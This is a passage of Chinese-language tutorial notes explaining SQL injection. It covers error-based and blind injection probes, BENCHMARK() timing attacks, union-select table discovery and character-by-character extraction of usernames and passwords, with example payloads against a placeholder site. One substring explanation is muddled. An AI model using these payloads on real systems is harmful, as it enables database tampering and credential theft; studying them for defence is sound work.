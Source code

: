 * 关键条件
  * 用户能够控制输入
  * 原本程序原本要执行的代码，拼接了用户输入的数据。
* 例子：select \* from 表  where 字段 = ‘  “+用户输入的数据+” ’ ;  
  * 如果用户输入  jack;drop table 表--  则 select \* from 表  where 字段 = ‘  jack;drop table 表-- ’ ;
* 在SQL注入中的过程中，如果网站的Web服务器开启了错误回显，则会为攻击者提供极大的便利。

#### 盲注（Blind Injection）

对于web服务器关闭了错误回显，可以通过盲注攻击。盲注：在服务器没有错误回显时完成的注入攻击。构造简单的条件语句，根据返回页面是否发生变化，来判断SQL语句是否得到执行。

**例子：**

```text
http://www.a.com/index.php?id=1 相当于执行了SQL语句：select title,description,body from items where id =2

若：http://www.a.com/index.php?id=1 and 1=2相当于执行了SQL语句：select title,description,body from items where id =2 and 1=2
因为“and 1=2”为伪命题，所以这条“and”条件语句永远无法成立。对于web应用来说，也不会有结果返回给用户，只能看到结果为空或者一个错误页面。
为了进一步确认注入是否存在，再次验证。因为一些处理逻辑或安全功能，在异常请求时会导致页面返回不正常。

继续构造：http://www.a.com/index.php?id=1 and 1=1
因为“and 1=1”为真命题，如果页面正常返回，则说明SQL语句的“and”成功执行，那么可以判断“id”参数存在SQL注入漏洞。
```

#### Timing Attack

* MYSQL函数：BENCHMARK\( count，expr \)
  * 用于测试函数性能
  * 函数的执行结果是将表达式expr执行count次。
  * 利用BENCHMARK\(\)函数，可以让同一个函数执行若干次，使得结果返回的时间比平时要长；通过时间长短的变化，可以判断出注入语句是否执行成功。这是一种边信道攻击，这个技巧在盲注中被称为Timing Attack。

### 数据库攻击技巧

#### 常用的攻击技巧

* 猜解数据库对应版本
  * [http://www.a.com/news.php?id=5](http://www.a.com/news.php?id=5) and substring\(@@version,1,1\) = 4
* 利用union select分别确认表面admin是否存在，列名passwd是否存在
  * id=5 union all select 1,2,3 from admin 
  * id=5 union all select 1,2,passwd from admin
* 进一步，想要猜出username和password具体的值，可以通过判断字符范围
  * id=5 and ascii\(substring\(select concat\(username,0x3a,passwd\) from users limit 0,1\),1,1\) &gt;64 
  * id=5 and ascii\(substring\(select concat\(username,0x3a,passwd\) from users limit 0,1\),1,1\) &gt;96
  * id=5 and ascii\(substring\(select concat\(username,0x3a,passwd\) from users limit 0,1\),1,1\) &gt;100
  * id=5 and ascii\(substring\(select concat\(username,0x3a,passwd\) from users limit 0,1\),2,1\) &gt;64 
  * ......
    * ascii\(\)&gt;64
      * 在ASCII码对照表中，十进制的65~90 对应字符 A~Z，十进制的97~122 对应字符 a~z
    * substring\("hello"，1，2\)
      * 返回hello的第1至第2位：he
    * substring\("hello"，2，1\)
      * 返回hello的第1位至第二位，但截取第1位，则返回：e
    * concat\(a,b,c\)
      * 合并字符，结果为：abc
    * 0x3a
      * 在ASCII码对照表中，十进制的58对应的十六进制是0x3a，其对应的字符是：“:”（冒号）
    * limit\(0，1\)
      * 0是偏移量，1是返回记录行的最大数目。所以检索的记录行是：从0到0+1
* 注入过程中，常常会用到一些读写文件的技巧